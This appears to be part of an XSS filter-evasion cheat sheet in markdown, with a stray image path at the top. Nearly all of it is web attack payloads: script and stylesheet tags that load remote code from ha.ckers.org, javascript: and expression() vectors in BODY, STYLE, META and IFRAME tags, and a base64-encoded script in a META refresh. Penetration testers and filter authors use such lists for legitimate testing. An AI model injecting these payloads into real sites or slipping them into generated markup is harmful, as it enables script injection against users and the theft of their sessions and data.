 ```<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>```

##Livescript (older versions of Netscape only)
##Obsolete
##<IMG SRC="livescript:[code]">

##BODY tag
```<BODY ONLOAD=alert('XSS')>```

##BGSOUND
```<BGSOUND SRC="javascript:alert('XSS');"```

##& JavaScript includes
##Obsolete
##<BR SIZE="&{alert('XSS')}">

##STYLE sheet
```<LINK REL="stylesheet" HREF="javascript:alert('XSS');">```

##Remote style sheet
```<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">```

##Remote style sheet part 2
```<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>```

##Remote style sheet part 3
```<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">```

##Remote style sheet part 4
```<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>```

##STYLE tags with broken up JavaScript for XSS
```<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>```

##STYLE attribute using a comment to break up expression
```<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"```

##IMG STYLE with expression
##N/A

##STYLE tag (Older versions of Netscape only)
```<STYLE TYPE="text/javascript">alert('XSS');</STYLE>```

##STYLE tag using background-image
```<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>```

##STYLE tag using background
```<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>```

##Anonymous HTML with STYLE attribute
```<XSS STYLE="xss:expression(alert('XSS'))">```

##Local htc file
```<XSS STYLE="behavior: url(xss.htc);">```

##META
```<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">```

##META using data
```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```

##META
```<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">```

##IFRAME
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

```